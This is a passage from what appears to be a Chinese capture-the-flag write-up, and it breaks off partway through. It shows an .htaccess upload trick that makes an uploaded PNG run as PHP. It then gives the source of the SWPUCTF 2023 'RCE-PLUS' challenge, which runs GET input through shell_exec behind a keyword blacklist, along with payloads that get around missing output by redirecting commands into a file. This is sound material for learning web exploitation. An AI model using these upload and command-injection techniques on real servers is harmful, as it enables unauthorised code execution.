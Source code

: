 上传`.htaccess`

```
<FilesMatch "3.png">
SetHandler application/x-httpd-php
</FilesMatch>
```

```php
SetHandler application/x-httpd-php //所有上传文件解析为php类型
```

上传成功后就可以进行传参

### [SWPUCTF 2023 秋季新生赛]RCE-PLUS

```php
<?php
error_reporting(0);
highlight_file(__FILE__);
function strCheck($cmd)
{
    if(!preg_match("/\;|\&|\\$|\x09|\x26|more|less|head|sort|tail|sed|cut|awk|strings|od|php|ping|flag/i", $cmd)){
        return($cmd);
    }
    else{
        die("i hate this");      
      }
}
$cmd=$_GET['cmd'];
strCheck($cmd);
shell_exec($cmd);
?>
```

```php
//无回显的函数，需要echo进行输出
shell_exec()
exec()
//有回显的函数
passthru()
system()
```

姿势一：

直接利用`>`直接输出结果到文件

payload:

```
ls />1
cat /fl*>1
```

姿势二：
